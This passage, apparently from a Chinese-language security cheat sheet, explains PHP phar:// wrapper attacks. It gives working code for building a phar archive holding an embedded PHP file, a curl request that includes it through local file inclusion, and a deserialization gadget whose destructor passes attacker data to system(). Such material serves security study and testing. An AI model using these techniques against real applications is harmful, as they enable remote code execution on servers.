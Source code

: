 - 创建包含后门文件的 phar 存档：`php --define phar.readonly=0 archive.php`

  ```php
  <?php
    $phar = new Phar('archive.phar');
    $phar->startBuffering();
    $phar->addFromString('test.txt', '<?php phpinfo(); ?>');
    $phar->setStub('<?php __HALT_COMPILER(); ?>');
    $phar->stopBuffering();
  ?>
  ```

- 使用 `phar://` 包装器：`curl http://127.0.0.1:8001/?page=phar:///var/www/html/archive.phar/test.txt`

### PHAR 反序列化

:warning: 此技术在 PHP 8+ 上不起作用，反序列化已被移除。

如果现在通过 `phar://` 包装器对我们的现有 phar 文件执行文件操作，则会对其序列化的元数据进行反序列化。此漏洞发生在以下函数中，包括 `file_exists`：`include`、`file_get_contents`、`file_put_contents`、`copy`、`file_exists`、`is_executable`、`is_file`、`is_dir`、`is_link`、`is_writable`、`fileperms`、`fileinode`、`filesize`、`fileowner`、`filegroup`、`fileatime`、`filemtime`、`filectime`、`filetype`、`getimagesize`、`exif_read_data`、`stat`、`lstat`、`touch`、`md5_file` 等。

此漏洞需要至少有一个具有魔术方法的类，例如 `__destruct()` 或 `__wakeup()`。
让我们以这个 `AnyClass` 类为例，它执行参数数据。

```php
class AnyClass {
    public $data = null;
    public function __construct($data) {
        $this->data = $data;
    }
    
    function __destruct() {
        system($this->data);
    }
}

...
echo file_exists($_GET['page']);
```

我们可以创建一个包含序列化对象的 phar 存档。

```php
// 创建新的 phar
$phar = new Phar('deser.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

// 将任意类的对象添加为元数据
class AnyClass {
    public $data = null;
    public function __construct($data) {
        $this->data = $data;
    }
    
    function __destruct() {
        system($this->data);
    }
}
$object = new AnyClass('whoami');
$phar->setMetadata($object);
$phar->stopBuffering();
```
